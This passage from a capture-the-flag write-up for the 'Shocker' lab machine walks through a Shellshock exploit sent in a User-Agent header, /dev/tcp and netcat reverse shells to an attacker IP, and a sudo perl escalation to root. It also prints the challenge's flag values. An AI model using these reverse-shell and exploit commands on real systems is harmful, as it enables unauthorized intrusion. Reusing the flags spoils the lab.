 * Now let's get a reverse shell.
* First, set up a listener locally by running `nc -lvnp 8888`
* At first I tried using the code `nc 10.10.14.12 8888 -e /bin/sh`, but it didn't work. 
* After a while, I realized that they probably had a different version of netcat installed or didn't have it at all, so I looked for a solution without that
* To get a reverse shell without netcat, use the code `bin/bash -i >& /dev/tcp/10.10.14.12/8888 0>&1` (replacing the ip with yours)
	* [This](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) website was very useful here.
* This gives us a get request that looks like this in the end:
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :;}; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.12/1337 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ca;q=0.8
Connection: close

```
* Pressing "Send", we get a reverse shell in our terminal!


* You can `cd /home/shelly` and `cat user.txt` to get the user flag: `96c9a22b1cef9d821835833b14ab404c`

* To privesc, you can run `sudo -l` to see what we can already run as root. We get the following output:
```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
* Here we can see that shelly can run the perl command as sudo without any passwords.
* That's kinda bad, because perl lets people execute commands.
* Running `sudo perl -e "exec '/bin/sh';"` gives us a root shell
* Now, we can `cd /root/` and `cat root.txt` to get the root flag: `b46763e9cb93d9b229df1dc0856f0253`

